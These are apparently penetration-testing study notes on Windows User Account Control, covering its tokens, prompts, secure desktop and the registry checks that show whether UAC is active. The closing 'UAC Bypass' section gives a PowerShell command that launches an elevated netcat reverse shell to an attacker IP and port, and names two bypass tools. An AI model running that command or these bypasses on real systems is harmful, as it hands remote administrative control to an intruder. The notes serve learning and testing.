




public:: true
alias:: UAC

- The *[User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/)* (UAC) is a Windows security feature that protects the operating system by **running most applications with standard user privileges**, even if the user launching them is an Administrator.
- An administrative user obtains [two access tokens after a successful logon](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#sign-in-process)
	- One is a standard user token *(AKA filtered admin token)*, which is used to perform all non-privileged operations.
	- The other one is a regular administrator token and is used when the user wants to perform a privileged operation.
- When changes to the system require administrator-level permission, UAC notifies the user *(part of the local Administrators group)*, giving the opportunity to approve or deny the change via the well-known *consent prompt*.
  #+BEGIN_CENTER
  {:height 292, :width 461} 
  #+END_CENTER
	- If the user approves the change, the action is performed with the highest available privilege.
	- If the user doesn't approve the change, the action isn't performed and the application that requested the change is prevented from running.
- When changes to the system require administrator-level permission, UAC notifies the standard user, giving the opportunity to provide credential for a local Administrator via the *credential prompt*.
  #+BEGIN_CENTER
  {:height 363, :width 315} 
  #+END_CENTER
- Security minded applications might be programmed to allow a combination of administrator and standard user operations. In this case the shield icon is shown {:height 37, :width 22}
	- For example, from the **Date and Time** standard users can view the clock and change the time zone, but a full administrator access token is required to change the local system time.
	  #+BEGIN_CENTER
	  {:height 274, :width 337} 
	  #+END_CENTER
- **Secure Desktop**
	- Available since Windows 10
	- The secure desktop’s primary difference from the user desktop is that only **trusted processes running as SYSTEM are allowed** to run here (that is, nothing is running at the user’s privilege level). It helps protect against **input and output spoofing** by presenting the credentials dialog box in a **protected section of memory** that is accessible only by **trusted system processes**.
	- Otherwise an attacker can trick
		- users to disclose their passwords
		- Spoof the mouse cursor by hiding the real cursor and replacing it with an offset so the cursor is actually pointing to the **Allow** button
- **UAC Architecture**
	- A detailed explanation of how UAC works can be found [here](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#uac-architecture).
	  #+BEGIN_CENTER
	  
	  #+END_CENTER
- **Check if UAC is enabled**
	- To confirm if UAC is enabled do:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      EnableLUA    REG_DWORD    0x1
	  ```
		- `1` then UAC is **activated**
		- `0` then UAC is **inactive**
		- If the key doesn't exist, then UAC is **inactive**
	- Then, check which level is configured:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      ConsentPromptBehaviorAdmin    REG_DWORD    0x5
	  ```
		- If `0` then, UAC won't prompt (like disabled)
		- If `1` the admin is asked for username and password to execute the binary with high rights (on Secure Desktop)
		- If `2` *(Always notify me)* UAC will always ask for confirmation to the administrator when he tries to execute something with high privileges (on Secure Desktop)
		- If `3` like `1` but not necessary on Secure Desktop
		- If `4` like `2` but not necessary on Secure Desktop
		- if `5` *(default)* it will ask the administrator to confirm to run non Windows binaries with high privileges
	- Then, you have to take a look at the value of `LocalAccountTokenFilterPolicy`
		- If the value is `0`, only the RID 500 user *(built-in Administrator)* is able to perform admin tasks without UAC
		- If the value is `1`, all accounts inside "Administrators" group can perform admin tasks without UAC
	- Summary
		- If `EnableLUA=0` or doesn't exist, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=1`, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=0`, no UAC for RID 500 *(Built-in Administrator)*
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=1`, UAC for everyone
- **UAC Bypass**
	- #+BEGIN_CAUTION
	  Note that if you have graphical access to the victim, UAC bypass is straight forward as you can simply click on "Yes" when the UAS prompt appears
	  #+END_CAUTION
	- If UAC is already disabled (`ConsentPromptBehaviorAdmin` is `0`) you can execute a reverse shell with admin privileges (high integrity level) using something like:
	  ```powershell
	  Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
	  ```
	- Noisy brute-force UAC bypass
		- If you don't care about being noisy you could always run something like **[ForceAdmin](https://github.com/Chainski/ForceAdmin)** that asks to elevate permissions until the user does accepts it.
	- Abuse Kerberos Tickets with [KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)